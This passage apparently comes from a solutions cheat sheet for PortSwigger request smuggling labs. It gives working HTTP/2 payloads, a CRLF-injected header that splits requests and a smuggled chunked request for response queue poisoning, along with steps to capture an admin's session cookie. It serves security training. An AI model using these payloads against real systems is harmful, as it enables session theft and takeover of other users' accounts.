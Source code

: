     search=p-
    ```
    
3. HTTP/2 request splitting via CRLF injection ([original lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection))
   > just send the request until get the `302` response code. and use the attached cookie to do malicious action.

   - Inject the following arbitrary **Request Header** in **Inspector**
     **Name:**
      > foo
      
     **Value:**
      > bar\r\n
      > \r\n
      > GET /x HTTP/1.1\r\n
      > Host: YOUR-LAB-ID.web-security-academy.net

   - Payload in Repeater: Just send `GET /x HTTP/2`


4. <a name="h2-te-req-smugg">H2.TE request smuggling</a> ([original lab](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling))
   > Most of the time, you will receive your own `404` response.\
   > Any other response code indicates that you have successfully captured a response intended for the admin user.\
   > Repeat this process until you capture a `302` response containing the admin's new post-login session cookie

   ```HTTP
   POST /x HTTP/2
   Host: YOUR-LAB-ID.web-security-academy.net
   Transfer-Encoding: chunked

   0

   GET /x HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net\r\n
   \r\n
   ```
